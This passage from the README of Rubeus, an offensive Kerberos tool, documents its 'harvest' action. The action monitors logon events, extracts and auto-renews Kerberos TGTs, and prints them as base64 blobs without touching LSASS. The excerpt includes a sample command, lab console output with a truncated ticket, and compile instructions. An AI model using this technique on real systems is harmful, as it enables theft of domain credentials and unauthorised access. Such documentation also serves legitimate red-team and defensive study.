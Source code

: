 
    [*] Extracted  1 total tickets

**Note that this action needs to be run from an elevated context!**


## harvest

The **harvest** action takes monitor one step further. It monitors the event log for 4624 events every /interval:MINUTES for new logons, extracts any new TGT KRB-CRED files, and keeps a cache of any extracted TGTs. On the /interval, any TGTs that will expire before the next interval are automatically renewed (up until their renewal limit), and the current cache of "usable"/valid TGT KRB-CRED .kirbis are output as base64 blobs.

This allows you to harvest usable TGTs from a system without opening up a read handle to LSASS, though elevated rights are needed to extract the tickets.

    c:\Rubeus>Rubeus.exe harvest /interval:30

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v0.0.1a

    [*] Action: TGT Harvesting (w/ auto-renewal)

    [*] Monitoring every 30 minutes for 4624 logon events

    ...(snip)...

    [*] Renewing TGT for dfm.a@TESTLAB.LOCAL
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1520 bytes
    [*] Received 1549 bytes

    [*] 9/17/2018 6:43:02 AM - Current usable TGTs:

    User                  :  dfm.a@TESTLAB.LOCAL
    StartTime             :  9/17/2018 6:43:02 AM
    EndTime               :  9/17/2018 11:43:02 AM
    RenewTill             :  9/24/2018 2:07:48 AM
    Flags                 :  name_canonicalize, renewable, forwarded, forwardable
    Base64EncodedTicket   :

        doIFujCCBbagAw...(snip)...

**Note that this action needs to be run from an elevated context!**


## Compile Instructions

We are not planning on releasing binaries for Rubeus, so you will have to compile yourself :)

Rubeus has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.